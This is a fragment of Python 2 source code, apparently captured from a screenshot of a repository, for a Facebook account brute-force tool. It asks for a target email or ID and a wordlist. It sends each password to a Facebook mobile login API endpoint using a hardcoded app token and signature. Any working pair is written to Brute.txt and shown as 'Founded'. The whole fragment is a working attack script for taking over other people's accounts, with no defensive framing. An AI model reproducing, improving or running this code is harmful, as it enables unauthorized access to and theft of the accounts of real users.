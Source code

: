     else:

        os.system('clear')

        print logo

        print '\033[0;30;39 ~~~~~~~~~~~~~~~~~~~~~~~~~~~'

        try:

            email = raw_input('\033[0;39m[+] \033[0;39mID\033[0;39m/\033[0;39mEmail \033[0;39mTarget \033[0;39m:\033[0;39m ')

            passw = raw_input('\033[0;39m[+] \033[0;39mWordlist \033[0;39mext(list.txt) \033[0;39m: \033[0;39m')

            total = open(passw, 'r')

            total = total.readlines()

            print '\033[0;30;39 ~~~~~~~~~~~~~~~~~~~~~~~~~~~'

            print '\033[0;39m[\033[0;39m\xe2\x9c\x93\033[0;39m] \033[0;39mTarget \033[0;39m:\033[0;39m ' + email

            print '\033[0;39m[+] \033[0;39mTotal\033[0;39m ' + str(len(total)) + ' \033[0;39mPassword'

            jalan('\033[0;39m[\xe2\x9c\xba] \033[0;39mPlease wait \033[0;39m...')

            sandi = open(passw, 'r')

            for pw in sandi:

                try:

                    pw = pw.replace('\n', '')

                    sys.stdout.write('\r\033[0;39m[\033[0;39m\xe2\x9c\xb8\033[0;39m] \033[0;39mTry \033[0;39m' + pw)

                    sys.stdout.flush()

                    data = requests.get('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + email + '&locale=en_US&password=' + pw + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')

                    mpsh = json.loads(data.text)

                    if 'access_token' in mpsh:

                        dapat = open('Brute.txt', 'w')

                        dapat.write(email + ' | ' + pw + '\n')

                        dapat.close()

                        print '\n\033[0;39m[+] \033[0;39mFounded.'

                        print 52 * '\033[0;39m\xe2\x95\x90'

                        print '\033[0;39m[\xe2\x9e\xb9] \033[0;39mUsername \033[0;39m:\033[0;39m ' + email

                        print '\033[0;39m[\xe2\x9e\xb9] \033[0;39mPassword \033[0;39m:\033[0;39m ' + pw

                        keluar()
